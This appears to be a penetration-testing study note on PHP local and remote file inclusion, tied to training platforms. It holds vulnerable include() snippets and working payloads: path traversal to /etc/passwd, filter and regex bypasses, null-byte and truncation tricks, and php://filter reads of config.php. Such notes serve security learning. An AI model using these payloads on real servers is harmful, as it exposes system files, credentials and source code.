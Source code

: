 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# File Disclosure

{% hint style="info" %}
Manipulating HTTP parameters to display the content of any local file on the hosting server.
{% endhint %}

Two types of file disclosure:

1. [**LFI**](#user-content-fn-1)[^1] -> the file chosen to be included is local on the target machine
2. [**RFI**](#user-content-fn-2)[^2] -> the file is included on other machines

The common place we usually find LFI within is **template engines**. These keep the static parts of the web application the same when navigating between different pages. For example, `/index.php?page=about'`:

* `/index.php` sets the static content
* `?page=about` pulls the dynamic content, e.g. `about.php`

## Basic LFI

Using **absolute path**.

```php
# The whole input is used
include($_GET['language']);
```

```html
<!-- Basic LFI -->
/index.php?language=/etc/passwd
```

## Path Traversal

Using **relative path.**

```php
# String appended/prepended to the parameter
include("./languages/" . $_GET['language']);
```

```html
<!-- Path traversal -->
/index.php?language=../../../../../../etc/passwd
```

{% hint style="info" %}
**Default on using Path Traversal** -> works in both cases. \
If unsure for the `pwd` **keep adding `../`** -> does not break the path.
{% endhint %}

## Filename Prefix

Using `/../` (_the directory may not exist and may break some FI techniques, such as PHP wrappers/filters_).

```php
# Input appended after another string
include("lang_" . $_GET['language']);
```

```html
<!-- Bypassing prefix -->
/index.php?language=/../../../etc/passwd
```

## Appended Extensions

```php
# Extension appended to the target parameter
include($_GET['language'] . ".php");
```

### Path Truncation (ealier PHP versions)

* Max strings length is `4096` chars -> everything longer is truncated.
* Trailing `/` and `.` in path names are truncated (`/etc/passwd/.` -> `/etc/passwd`).
* Both PHP and Linux disregard multiple `/` in the path ( `////etc/passwd` =`/etc/passwd`).
* Similarly, a current directory shortcut (`.`) in the middle of the path would also be disregarded.

Based on the those characteristics, we can create very long strings that evaluate to the target path.

{% hint style="warning" %}
For this technique to work, we need to **start the path with a non-existing directory**.
{% endhint %}

{% code overflow="wrap" %}
```html
<!-- Creating a string longer than 4096 chars -->
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Creating the above with bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done non_existing_directory/../../../etc/passwd/./././././././
```
{% endcode %}

### Null Byte (PHP < 5.3.4)

Appended extensions can be also bypassed with the use of a **null byte** (`%00` or `0x00`).

```html
<!-- Commenting out the extension -->
/index.php?language=/../../../etc/passwd%00
```

## Path Traversal Filters

### Search and Replace

One of the most common defences against LFI -> deletes substrings of `../,` e.g. `../../../etc/passwd` -> `.languages/etc/passwd`.

```php
# Search and replace method
$language = str_replace('../', '', $_GET['language']);
```

If **non-recursive**, i.e., runs just a single time on the input string -> double up the `../` (or `..././`, `..../`, `....////`, etc).&#x20;

```html
<!-- Bypassing a non-recursive search and replace filter -->
/index.php?language=....//....//....//etc/passwd
```

### Character Filters

If `.` and/or `/` are banned -> URL-encode once or twice.

## Approved Paths

Regex usage to ensure that the file being included is under a defined directory -> include the directory within the payload.

{% code overflow="wrap" %}
```php
# Using regex to "lock" down the directory
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) { include($_GET['language']); } else { echo 'Illegal path specified!'; }
```
{% endcode %}

```html
<!-- Bypassing regex filters -->
/index.php?language=./languages/../../../etc/passwd
```

## PHP Filters

Read the source code of PHP files.

```html
<!-- Exfiltrating the source code of the config.php file -->
/index.php?language=php://filter/read=convert.base64-encode/resource=config.php
```

For an example of this check [StreamIO](../../../boxes/medium/streamio.md#local-file-inclusion).

## Second-Order Attacks

Poison a database entry, so another web application functionality gets tricked or our registration name. This type of attack is often overlooked by the developers, as values pulled from the application's database is generally trusted, i.e., not sanitized.

1. Option to download our avatar via `/profile/$username/avatar.png`.
2. Craft a malicious LFI username, such as `../../../etc/passwd`.

## Resources

{% tabs %}
{% tab title="HTB" %}
{% embed url="https://academy.hackthebox.com/module/details/23" %}
{% endtab %}

{% tab title="PostSwigger" %}
{% embed url="https://portswigger.net/web-security/file-path-traversal" %}
{% endtab %}

{% tab title="THM" %}
{% embed url="https://tryhackme.com/jr/fileinc" %}
{% endtab %}
{% endtabs %}

[^1]: Local File Inclusion

[^2]: Remote File Inclusion
